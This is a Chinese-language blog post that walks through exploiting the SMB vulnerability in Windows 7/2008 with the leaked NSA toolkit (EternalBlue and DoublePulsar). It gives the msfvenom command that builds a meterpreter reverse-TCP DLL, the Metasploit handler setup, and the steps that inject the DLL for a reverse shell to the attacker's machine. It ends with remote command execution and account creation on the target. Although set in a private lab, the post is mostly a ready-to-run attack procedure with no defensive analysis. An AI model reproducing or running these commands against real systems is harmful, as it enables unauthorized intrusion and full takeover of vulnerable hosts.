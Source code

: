 ```yaml
---
title: NSA工具包验证之SMB漏洞利用
date: 2017-06-15 12:12:59
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.3)：开放了445端口的windows 7（windows2008与之攻击方法完全相同）

以上所有IP之间均可以直接访问

### 验证步骤：
<!--more-->
* * *

#### 第一步：生成可执行的恶意dll文件

0x01

首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：

![1.jpg](post160/1.jpg)

0x02

执行命令：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll > s.dll
```

在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell

0x03

点击xshell如图位置

![3.jpg](post160/3-162743458649210.jpg)

打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图

![4.jpg](post160/4.jpg)

#### 第二步：配置kali使得kali处于监听状态

0x01

依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功

![2.jpg](post160/2.jpg)

这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击

0x01

将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错

![5.jpg](post160/5.jpg)

0x02

打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图

![6.jpg](post160/6.jpg)

0x03

输入命令
```
use Eternalblue
```
然后敲击回车，保持默认设置，除了下图俩需要选择，其他直接敲击回车使用默认配置即可

![7.jpg](post160/7.jpg)

之后再敲几下回车开始攻击，得到结果如图

![8.jpg](post160/8.jpg)

可以看到最后"Eternalblue Succeeded"显示成功，当然，不是所有攻击都会成功，需要一定运气的

0x04

输入命令
```
use Doublepulsar
```

然后会要求输入一些参数，比如系统位数、后门操作、后门路径等，除了下图中红框标出的部分，其他保持默认即可

![9.jpg](post160/9.jpg)

接着输入后门路径，即我们之前用kali生成的s.dll，如下图

![10.jpg](post160/10.jpg)

之后不断敲击回车开始在目标机执行s.dll，成功后如图

![11.jpg](post160/11.jpg)

这时打开xshell可以看到已经成功反弹shell

![12.jpg](post160/12.jpg)

然后就可以比如说输入shell模拟终端执行命令，创建账户，等等，总之服务器权限已经拿到了

![13.jpg](post160/13.jpg)